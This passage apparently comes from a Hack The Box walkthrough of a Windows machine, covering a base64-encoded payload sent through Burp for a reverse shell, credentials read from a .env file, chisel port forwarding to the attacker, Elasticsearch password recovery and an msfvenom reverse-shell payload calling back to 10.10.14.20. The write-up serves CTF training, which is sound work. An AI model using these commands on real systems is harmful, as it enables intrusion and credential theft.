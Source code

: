 ```markdown

present.cs(69,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```
Encode base64 the resulting binary.
```markdown
> base64 -w 0 ./Present.exe
```
Send the payload with burpsuite, don't forget to URL-encode to avoid problematic characters.

![napper4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/1980268c-79fe-44aa-a94e-cba7f1d47d57)

A reverse shell for user ruben is received.
### PHASE 3. System
Enumerate the system info.
```markdown
> systeminfo
Host Name:                 NAPPER
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
System Type:               x64-based PC
```
Enumerating with `winpeas.exe`, a binary is discovered in a folder for which we have write access.
```markdown
> C:\Temp\www\internal\content\posts\internal-laps-alpha\a.exe
```
In this folder there is also a `.env` file containing credentials.
```markdown
> C:\Temp\www\internal\content\posts\internal-laps-alpha>type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
```
We also find a local service running on port 9200, doing some research, we find out this port is owned by elasticsearch. Place a `chisel` and forward port 9200 to kali.
```markdown
./chisel64 server -p 8000 --reverse
chisel64.exe client 10.10.14.20:8000 R:9200
```
Browsing the site locally with firefox `https://localhost:9200`, an elasticsearch login website appears.
Next step is to decompile the `a.exe` file with a reversing tool. The file turns out to have been written in golang.
Conclusions after inspecting the source code:
1. If you use ghidra, look for a golang extension to assist in decompile process.
2. The binary reads environamental variables from the `.env` file. 
3. In the source you can find credentials for `elastic` user.
4. The binary updates password for user `backup`, which is written in a json field called `blob`

![napper5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b5dc1e65-ab60-4883-9cae-019afdf52890)

Use the `elastic` user ceredentials to log into the elasticsearch site. Query the https://localhost:9200/_search endpoint to find the `blob` parameter, which contains the encoded current password for user `backup` and the `seed` used to AES encode it.<br>
Once both parameters are retrieved, we can decode the `backup` user password. For this, it is needed to create our own go script, one good starting point can be found here: https://gist.github.com/fracasula/38aa1a4e7481f9cedfa78a0cdd5f1865<br>
Also, bear in mind that password for user `backup` is updated periodically.<br>
Once the password is obtained, we just need to log in as user `backup`. There are no open ports 135, 445, 3389, 5985, so `impacket`, `rdesktop` and `evil-winrm` are discarded. A good alternative could be `runascs` with a `shell.exe` payload generated with `msfvenom`
```markdown
> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.20 lport=9000 -f exe -a x64 --platform windows -o shell.exe  
```